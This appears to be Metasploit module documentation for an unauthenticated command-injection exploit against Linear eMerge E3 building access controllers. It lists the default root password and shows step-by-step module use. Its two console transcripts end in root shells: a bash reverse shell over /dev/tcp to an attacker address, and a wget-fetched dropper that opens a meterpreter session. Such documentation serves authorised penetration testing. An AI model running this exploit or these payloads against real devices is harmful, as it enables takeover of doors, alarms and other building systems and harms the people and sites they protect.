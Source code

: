 ## Vulnerable Application

Nortek Security & Control, LLC (NSC) is a leader in wireless security, home automation and personal safety systems and devices.
The eMerge E3-Series is part of Linear’s access control platform, that delivers entry-level access control to buildings.
It is a web based application where the HTTP web interface is typically exposed to the public internet.

The Linear eMerge E3 versions `1.00-06` and below are vulnerable to unauthenticated command injection in card_scan_decoder.php
via the  `No` and `door` HTTP GET parameter. Successful exploitation results in command execution as the root user.

Building automation and access control systems are at the heart of many critical infrastructures, and their security is vital.
Executing attacks on these systems may enable unauthenticated attackers to access and manipulate doors, elevators, air-conditioning systems,
cameras, boilers, lights, safety alarm systems within a building.

This issue affects all Linear eMerge E3-Series with firmware versions up to and including `1.00-06`.

Installing a vulnerable test bed requires a Linear eMerge E3-Series access controller with the vulnerable software loaded.

This module has been tested against a Linear eMerge access controller with the specifications listed below:

* Nortek Linear eMerge E3 Elite access controller
* Firmware: `v1.00-03`

## Verification Steps

1. `use exploit/linux/http/linear_emerge_unauth_rce_cve_2019_7256`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-Unix command or 1-Linux Dropper>`
1. `exploit`
1. You should get a `bash` shell or `meterpreter` session depending on the target and payload settings.

## Options
### ROOT_PASSWORD
The password of the `root` user on the target device. Defaults to `davestyle`, which is
the default root password for Linear eMerge E3-Series devices.

## Scenarios

### Nortek Linear eMerge E3 Elite access controller bash reverse shell

```
msf > use exploit/linux/http/linear_emerge_unauth_rce_cve_2019_7256
[*] Using configured payload cmd/unix/reverse_bash
msf exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > options

Module options (exploit/linux/http/linear_emerge_unauth_rce_cve_2019_7256):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine
                                       or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


View the full module info with the info, or info -d command.

msf exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set lport 4444
lport => 4444
msf exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set target 0
target => 0
msf exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.180:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 2 seconds.
[*] Elapsed time: 3.16 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing Unix Command with bash -c '0<&179-;exec 179<>/dev/tcp/192.168.100.7/4444;sh <&179 >&179 2>&179'
[*] Command shell session 1 opened (127.0.0.1:4444 -> 127.0.0.1:54274) at 2022-12-01 18:51:54 +0000

uname -a
Linux cuckoo 3.14.54 #1 SMP PREEMPT Thu Dec 6 19:08:58 PST 2018 armv7l GNU/Linux
whoami
root
exit
```

### Nortek Linear eMerge E3 Elite access controller meterpreter session

```
msf > use exploit/linux/http/linear_emerge_unauth_rce_cve_2019_7256
[*] Using configured payload linux/armle/meterpreter_reverse_tcp
msf exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > options

Module options (exploit/linux/http/linear_emerge_unauth_rce_cve_2019_7256):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine
                                       or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (linux/armle/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


View the full module info with the info, or info -d command.

msf exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set lport 4444
lport => 4444
msf exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set target 1
target => 1
msf exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.180:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 2 seconds.
[*] Elapsed time: 3.18 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing Linux Dropper
[*] Using URL: http://192.168.100.7:8080/n6tUft9RrS
[*] Client 127.0.0.1 (Wget) requested /n6tUft9RrS
[*] Sending payload to 127.0.0.1 (Wget)
[*] Meterpreter session 2 opened (127.0.0.1:4444 -> 127.0.0.1:49448) at 2022-12-01 18:50:26 +0000
[*] Command Stager progress - 100.00% done (125/125 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.100.180
OS           :  (Linux 3.14.54)
Architecture : armv7l
BuildTuple   : armv5l-linux-musleabi
Meterpreter  : armle/linux
meterpreter > getuid
Server username: root
```

## Limitations
Due to the limitations of restricted `busybox` command implementation on the Linear eMerge E3 Access Controller, only a
few unix command payloads will work such as `cmd/unix/reverse_bash` or `cmd/unix/reverse` (telnet).

